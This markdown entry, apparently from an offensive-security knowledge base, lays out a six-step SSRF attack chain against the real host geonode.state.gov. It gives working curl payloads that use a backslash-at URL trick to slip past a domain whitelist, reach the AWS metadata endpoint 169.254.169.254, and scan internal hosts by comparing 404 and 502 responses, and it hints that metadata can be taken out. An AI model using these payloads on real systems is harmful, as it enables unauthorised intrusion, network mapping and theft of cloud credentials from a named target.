

---
tags:
  - ssrf
  - whitelist-bypass
  - aws-metadata
  - internal-scanning
type: attack_chain
tools:
  - '[[tools/Burp-Collaborator]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - AWS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-and-Test-SSRF-Endpoint]]'
  - '[[procedures/Bypass-SSRF-Whitelist-for-Internal-Scanning]]'
step_count: 6
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
updated_at: '2025-12-14T04:08:55.029Z'
description: >-
  Multi-stage attack chain exploiting a misconfigured SSRF protection on
  geonode.state.gov to bypass domain whitelisting and scan internal AWS hosts
  using crafted URLs.
skill_level: intermediate
impact_level: high
id: c6e50082-54f7-4f60-b3e1-5300f5fbbd9d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
---
# Bypassing SSRF Whitelist for Internal Host Scanning on geonode.state.gov

Multi-stage attack chain demonstrating exploitation of a misconfigured SSRF protection on the /proxy/?url= endpoint of geonode.state.gov. The whitelist allows only specific domains like geonode.state.gov, but by appending internal IPs with a backslash and the whitelisted host (e.g., http://169.254.169.254\@geonode.state.gov), the backend is tricked into requesting internal resources while the frontend validates the whitelisted domain. This enables scanning of internal hosts, distinguishing alive hosts (404 NOT FOUND) from unreachable ones (502 Bad Gateway).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Collaborator]]

### Target Environment

- Web application on geonode.state.gov
- AWS EC2 environment with internal metadata endpoints
- No specific ports required beyond standard HTTP/HTTPS

### Initial Access Requirements

- Public access to geonode.state.gov/proxy/?url= endpoint
- No credentials needed
- Network position: External attacker

## Detailed Attack Procedures

### Step 1: Identify the SSRF-Protected Proxy Endpoint
procedure: [[procedures/Identify-and-Test-SSRF-Endpoint]]

**Objective**: Locate and understand the whitelisted proxy endpoint to prepare for SSRF testing.

**Instructions**: Manually inspect the application or use reconnaissance tools to identify the /proxy/?url= endpoint. Confirm it uses a domain whitelist restricting requests to geonode.state.gov.

**Expected Output**: Endpoint identified with whitelist behavior noted.

**Success Indicators**:
- Endpoint responds to whitelisted URLs
- Direct internal requests are blocked

### Step 2: Test for Basic SSRF Using Burp Collaborator
procedure: [[procedures/Identify-and-Test-SSRF-Endpoint]]

**Objective**: Verify SSRF capability by detecting out-of-band requests to an external collaborator.

**Instructions**: Use [[commands/test-ssrf-with-collaborator]] to send a request with a collaborator URL appended to the whitelisted host:

```bash
curl -X GET "https://geonode.state.gov/proxy/?url=http://burpcollablink@geonode.state.gov" -H "Host: geonode.state.gov"
```

Monitor Burp Collaborator for incoming requests.

**Expected Output**: Server initiates HTTP request to Burp Collaborator, confirming SSRF.

**Success Indicators**:
- DNS/HTTP interaction logged in Collaborator
- No direct response from endpoint indicates backend request

### Step 3: Bypass Whitelist to Hit Internal AWS Metadata Host
procedure: [[procedures/Bypass-SSRF-Whitelist-for-Internal-Scanning]]

**Objective**: Exploit URL parsing differences to request internal IP while satisfying frontend whitelist.

**Instructions**: Craft payload using [[commands/bypass-whitelist-to-internal-ip]]:

```bash
curl -X GET "https://geonode.state.gov/proxy/?url=http://169.254.169.254\\@geonode.state.gov" -H "Host: geonode.state.gov" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
```

The backend resolves to 169.254.169.254 and appends \/@geonode.state.gov as path.

**Expected Output**: 404 NOT FOUND, confirming internal host reachability.

**Success Indicators**:
- 404 response (host alive, path invalid)
- No whitelist block

### Step 4: Test Non-Existent Internal Host to Differentiate Responses
procedure: [[procedures/Bypass-SSRF-Whitelist-for-Internal-Scanning]]

**Objective**: Establish response patterns for alive vs. unreachable hosts to enable scanning.

**Instructions**: Use [[commands/test-nonexistent-internal-ip]] on a bogus IP:

```bash
curl -X GET "https://geonode.state.gov/proxy/?url=http://169.254.169.251\\@geonode.state.gov" -H "Host: geonode.state.gov" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
```

**Expected Output**: 502 Bad Gateway, indicating host unreachable.

**Success Indicators**:
- 502 response for non-existent hosts
- Differentiates from 404 for alive hosts

### Step 5: Confirm Direct Internal IP Requests Are Blocked
procedure: [[procedures/Bypass-SSRF-Whitelist-for-Internal-Scanning]]

**Objective**: Verify whitelist blocks direct internal access, highlighting the bypass necessity.

**Instructions**: Attempt direct request with [[commands/direct-internal-ip-test]]:

```bash
curl -X GET "https://geonode.state.gov/proxy/?url=http://169.254.169.254/" -H "Host: geonode.state.gov"
```

**Expected Output**: Request blocked by whitelist (e.g., 403 or error).

**Success Indicators**:
- Block confirms whitelist enforcement
- Validates bypass effectiveness

### Step 6: Demonstrate Internal Host Scanning
procedure: [[procedures/Bypass-SSRF-Whitelist-for-Internal-Scanning]]

**Objective**: Systematically scan internal network by varying IPs and monitoring responses.

**Instructions**: Script or manually vary the internal IP in the bypass payload (e.g., 169.254.0.0/16 range) using the format from Step 3. Parse responses: 404 = alive, 502 = unreachable.

**Expected Output**: Map of alive internal hosts, including AWS metadata at 169.254.169.254.

**Success Indicators**:
- Identification of live internal services
- Potential exfiltration of metadata if paths adjusted

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed SSRF-protected endpoint with whitelist.
2. Bypassed whitelist using URL parsing trick to access internal AWS metadata.
3. Enabled network scanning by differentiating host responses.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Active Scanning]] Active Scanning

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Discovery]] Discovery

---

*Last updated: 2023-10-01T00:00:00Z*
